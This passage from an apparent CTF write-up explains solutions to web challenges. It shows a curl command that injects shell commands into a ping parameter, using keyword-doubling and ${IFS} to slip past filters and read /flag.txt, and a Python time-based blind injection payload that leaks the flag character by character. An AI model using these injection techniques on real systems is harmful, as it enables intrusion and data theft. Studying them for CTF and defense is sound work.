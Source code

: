 And got the flag in no time 🙂

![EzStart-PoC](/static/images/deadsec-writeups/ezstart-02.png)



## Bing2

- Difficulty: Easy

![Bing2](/static/images/deadsec-writeups/bing2.png)

This one is a command injection in the `bing.php` `host` parameter, it pings the host we provide and we can inject commands there. The trick here is to bypass the filters and read the flag `/flag.txt` which one of the filters is to *delete* the keyword `cat` and `flag` from many others in the input.

![Bing2](/static/images/deadsec-writeups/bing2-01.png)

Because it *removes* the keywords we can use that to generate our keywords like this:

```sh
➜  Bing2 curl -XPOST https://d931e8d7082cacac0d2a37f7.deadsec.quest/bing.php -d "Submit" -d 'ip=;id;cacatt${IFS}/f*'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
DEAD{5b814948-3153-4dd5-a3ac-bc1ec706d766}
```

I also used `${IFS}` as a space because spaces are blacklisted too


## Bing_Revenge

- Difficulty: Easy

![Bing_Revenge](/static/images/deadsec-writeups/bing_revenge.png)

This one takes different approach than the previous, it's a python application that will execute the command we provide in the `host` parameter, the trick here is nothing printed what so ever in the response, so we need to find a way to read the flag `/flag.txt` without seeing the output. Unfortunately, we can't have out of band access to the server because of the firewall.

![Bing_Revenge](/static/images/deadsec-writeups/bing_revenge-01.png)

In this case we can take the same approach used for time-based SQL injections, we will be reading the flags chars and comparing them, whenever our guess is correct we will sleep for few seconds (I used 7 because the server was slow).

The pseudo code will look like this:
```python
payload = f";if [ $(cat /flag.txt | cut -c{c_i+1} | grep -c '{c}') -eq 1 ]; then sleep {str(sleep_time)}; fi"
r = requests.post(url, data={"host": payload})
if r.elapsed.total_seconds() > sleep_time:
    # we guessed the char correctly
```
